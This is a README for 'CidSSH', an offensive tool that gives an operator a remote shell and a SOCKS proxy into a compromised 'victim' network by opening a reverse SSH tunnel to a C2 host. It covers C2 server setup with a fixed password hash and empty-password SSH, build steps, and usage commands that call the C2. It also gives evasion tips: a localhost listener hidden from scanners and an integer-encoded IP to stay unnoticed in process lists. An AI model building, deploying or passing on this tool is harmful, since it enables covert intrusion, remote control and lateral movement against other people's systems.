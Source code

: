 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
   ForceCommand echo 'This is a disabled account'
EOT
```

Restart sshd:
```systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases/tag/v1.0). They are ready to roll.

If you want to compile from source keep reading below.

### Compilation on Windows
You can use the `CMakeLists.txt` along with `CMake` to create a Visual Studio project.

To generate mentioned project, just make sure you set in `CMake` the proper include and library paths for:
- libssh 
- openssl

You can find both of them already statically prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).

### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 
We have a dockerfile to do the compilation more easy `Dockerfile_linux_static`.
These are the steps to build and get the compiled binary from the container:
```
# Build the image, install dependencies and compile CidSSH
sudo docker build -t alpine_cid_ssh -f Dockerfile_linux_static .
# Copy the binary from the docker container to the current folder
sudo docker run -v `pwd`:/data_out -i -t alpine_cid_ssh:latest /bin/sh -c "cp /Cid-SSH/build/CidSSH /data_out/"
```

### Compilation on MacOs
Compile CidSSH:
```
cd ~/shared/SSHIUU/src/
mkdir build && cd build
git clone https://github.com/illera88/PrecompiledLibraries
cmake -DCMAKE_BUILD_TYPE=Release -DLIBSSH_STATIC_PATH=PrecompiledLibraries/macos/libssh_mod/ ..
make
```

## Using it

Defaults: user is `anonymous` and default `LOCAL_SSH_SERVER_PORT` is 2222

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname [LOCAL_SSH_SERVER_PORT]`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135 1234
Cid-SSH.exe user@192.168.15.135
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
# Extra: One-liner for two previous commands:
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p `sudo netstat -ptan | grep sshd | grep LISTEN | grep anon | cut -d : -f2 | cut -d" " -f1` -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```
